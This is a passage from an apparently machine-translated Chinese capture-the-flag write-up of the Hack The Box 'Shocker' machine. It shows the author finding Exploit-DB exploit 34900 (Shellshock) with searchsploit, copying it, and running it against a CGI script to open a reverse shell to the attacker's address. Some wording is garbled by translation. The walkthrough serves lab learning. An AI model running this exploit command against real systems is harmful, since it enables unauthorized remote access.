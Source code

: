 [https://www.exploit-db.com/exploits/34900](https://www.exploit-db.com/exploits/34900)

我通过以下方式获得更多信息:

```
searchsploit -p 34900.py
```

![Screenshot-2020-09-01-at-07.41.16](img/3c7023d354e4b01cc3776bd8e10d2945.png)

我可以在我的卡利盒上看到它的位置。我将文件复制到我的修卡文件夹中

```
cp /usr/share/exploitdb/exploits/linux/remote/34900.py .
```

并检查它是否已被复制到该文件夹中

```
ls -la
```

![Screenshot-2020-09-01-at-07.41.39](img/bd82c6252c28d0eb238ad2c86f81a54f.png)

然后，我用

```
python 34900.py payload=reverse rhost=shocker.htb lhost=10.10.14.4 lport=1234 pages=/cgi-bin/user.sh
```

对于 TCP 反向 shell，我将有效负载设置为 reverse，这需要设置 rhost、lost 和 lport。

![Screenshot-2020-09-01-at-21.44.01](img/c7f50a310398cedfeaa6607ec38c78fa.png)

我得到一个贝壳！

## **************步****4****-********寻找用户. txt 标志******

我从 ****主页**** 导航到**雪莉**文件夹。
